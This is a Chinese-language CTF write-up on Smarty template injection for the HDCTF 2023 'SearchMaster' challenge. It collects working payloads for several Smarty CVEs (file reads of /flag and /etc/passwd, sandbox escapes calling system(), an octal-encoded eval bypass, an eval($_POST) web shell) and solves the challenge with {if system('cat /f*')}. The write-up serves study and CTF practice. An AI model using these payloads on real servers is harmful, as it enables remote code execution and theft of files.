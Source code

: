 # [HDCTF 2023]SearchMaster

## 0、知识点

>   Smarty模版注入

>   Smarty是最流行的PHP模板语言之一

## 1、关于smarty漏洞



### 0、任意文件读取

-   版本限制无

-   漏洞成因：

    -   [{include}](https://www.smarty.net/docs/en/language.function.include.tpl) 标签所导致，被该标签引入的文件只会单纯的输出文件内容，就算引入 php 文件也是如此

-   payload：

    -   ```nginx
        string:{include file='C:/Windows/win.ini'}
        string:{include file='/flag'}
        string:{include file='index.php'}
        ```

### 1、CVE-2017-1000480

**测试代码**

```php
<?php
define('HOST_DIR', __DIR__ . '/../');
define('SMARTY_LIBS', HOST_DIR . '/vendor/smarty/libs/Smarty.class.php');
define('SMARTY_COMPILE_DIR', HOST_DIR . 'app/templates_c');
define('SMARTY_CACHE_DIR', HOST_DIR . 'app/cache');
require_once(SMARTY_LIBS);
class testSmarty extends Smarty_Resource_Custom{
	protectedfunction fetch($name, &$source, &$mtime){
        $template = "CVE-2017-1000480 smarty PHP code injection";
        $source = $template;
        $mtime = time();
	}
}
$smarty = new Smarty();
$smarty->registerResource('test', new testSmarty);
$smarty->display('test:'.$_GET['eval']);
?>
    
    # 我们可以利用 / / 或者 */ // 等方式来实现代码执行
    注入案例：
    	index.php?eval=*/phpinfo();/*
```



### 2、CVE-2021-26120（沙箱逃逸漏洞）

-   漏洞原因：[{function}](https://www.smarty.net/docs/en/language.function.function.tpl) 标签的 name 属性可以通过精心构造注入恶意代码

-   版本限制：**在 3.1.39 版本修复，小于 3.1.39 能用**

-   payload：

    -   ```nginx
        string:{function name='x(){};system(whoami);function '}{/function}
        string:{function name='x(){};system(cat /flag);function '}{/function}
        ```

### 3、CVE-2021-26119 (沙箱逃逸)

-   漏洞原因：可以通过` {$smarty.template_object} `**访问到 smarty 对象，然后执行任意命令**

-   版本限制：这个漏洞还没有被修复，最新版本 4.1.0 跟 3.1.44 都能注入恶意代码

-   payload：

    -   ```nginx
        # smarty对象中一些可以执行命令的函数
        string:{$smarty.template_object->smarty->_getSmartyObj()->display('string:{system(whoami)}')}
        string:{$smarty.template_object->smarty->enableSecurity()->display('string:{system(whoami)}')}
        string:{$smarty.template_object->smarty->disableSecurity()->display('string:{system(whoami)}')}
        string:{$smarty.template_object->smarty->addTemplateDir('./x')->display('string:{system(whoami)}')}
        string:{$smarty.template_object->smarty->setTemplateDir('./x')->display('string:{system(whoami)}')}
        string:{$smarty.template_object->smarty->addPluginsDir('./x')->display('string:{system(whoami)}')}
        string:{$smarty.template_object->smarty->setPluginsDir('./x')->display('string:{system(whoami)}')}
        string:{$smarty.template_object->smarty->setCompileDir('./x')->display('string:{system(whoami)}')}
        string:{$smarty.template_object->smarty->setCacheDir('./x')->display('string:{system(whoami)}')}
        
        string:{$s=$smarty.template_object->smarty}
        {$fp=$smarty.template_object->compiled->filepath}{Smarty_Internal_Runtime_WriteFile::writeFile($fp,"<?php+phpinfo();",$s)}
        ```

### 4、CVE-2021-29454

-   漏洞原因：`libs/plugins/function.math.php` 中的 `smarty_function_math` 执行了 eval()，
    -   而` eval() `的数据可以通过 8 进制数字绕过正则表达式
-   版本限制：在 3.1.42 和 4.0.2 中修复，小于这两个版本可用

-   payload:

    -   ```nginx
        eval:{math equation='("\163\171\163\164\145\155")("\167\150\157\141\155\151")'}
        
        # php 的 eval() 支持传入 8 或 16 进制数据，
        # 以下代码在 php7 版本都可以顺利执行，由于 php5 不支持 (system)(whoami);
        # 这种方式执行代码，所以 php5 的 8 进制方式用不了：
        eval('("\163\171\163\164\145\155")("\167\150\157\141\155\151");');
        eval("\x73\x79\x73\x74\x65\x6d\x28\x77\x68\x6f\x61\x6d\x69\x29\x3b");
        ```



### 5、**利用模板本身的特性进行攻击**

-   **利用本身的特性进行攻击的方式也就是指模板引擎中的各种标签**
    -   **标签为了实现功能，很多时候会进行命令执行等操作**，有时一些正常的功能也会被恶意利用而导致一系列的问题

-   ```nginx
    常用的参数值：
    {$smarty.version}		# 返回版本信息，有助于根据版本进行后续攻击手段的选择
    ${smarty.template}		# 返回当前模板的文件名，没用使用模板文件就会报错
    ```

-   **攻击方式**：

    -   **获取类的静态方法（适应于：旧版本， 3.1.30版本被删除）**

        -   ```nginx
            # 我们可以通过 self 标签来获取 Smarty 类的静态方法，
            # 比如我们可以获取 getStreamVariable() 方法来读文件，这里就可以进行尝试是否存在任意文件读取
            {self::getStreamVariable(“file:///etc/passwd”)}
            ```

    -   **{literal} 标签**

        -   ```nginx
            # {literal} 可以让一个模板区域的字符原样输出。
            # 这经常用于保护页面上的Javascript或css样式表，避免因为 Smarty 的定界符而错被解析
            
            在 PHP5 环境下存在一种 PHP 标签， <script language=”php”></script>，
            我们便可以利用这一标签进行任意的 PHP 代码执行
            
            注入案例：
            	{literal}alert('xss');{/literal}
            	{literal}<script language='php'>eval($_POST['cmd']);</script>{/literal}
            ```

    -   **{if} 标签**

        -   ```nginx
            # Smarty 的 {if} 条件判断和 PHP 的 if 非常相似，
            # 只是增加了一些特性。每个 {if} 必须有一个配对的 {/if}，也可以使用 {else} 和 {elseif} ，
            全部的PHP条件表达式和函数都可以在 {if} 标签中使用。
            
            注入案例：
            {if phpinfo()}{/if}
            {if readfile ('/flag')}{/if}
            {if show_source('/flag')}{/if}
            {if system('cat /flag')}{/if}
            {if system('cat /f*')}{/if}
            {if system('ls /')}{/if}
            ```

    -   **{php} 标签（不常用，遇到了再去了解吧）**

        -   Smarty3 官方手册中明确表示已经废弃 `{php}` 标签，不建议使用。
        -   在 `Smarty3.1`， `{php}` 仅在 `SmartyBC` 中可用。



****

## 2、解题

-   **打开界面关键的一句是**
    -   `模板都一样我很抱歉OVO BUT YOU CAN POST ME A data`

-   意思是叫我们POST传入一个参数，参数名为：data
-   一般叫我们传入参数的情况下考察的可能会是：**命令执行、模版注入、sql注入**

>   **经过测试可以发现是模版注入，当我们赋值：`data={{7*7}}`时，页面返回并计算出7*7的值**

>   **继续进行测试判断属于哪种模版注入**

>   **通过输入`a{*comment*}b => ab`确定模板类型为Smarty，也是就说以`{**}` 为注释符就可以判断我们的模板为 Smarty 模板，当然传入一些奇怪的字符让它报错可以确认它为Smarty**

>   **输入`data={$smarty.version}`返回出Smarty的版本信息为：4.1.0**

>   **使用{if}标签可以直接获取到flag**

```
{if system('cat /f*')}{/if}
```





参考：

https://xz.aliyun.com/t/11108#toc-1

https://www.anquanke.com/post/id/272393
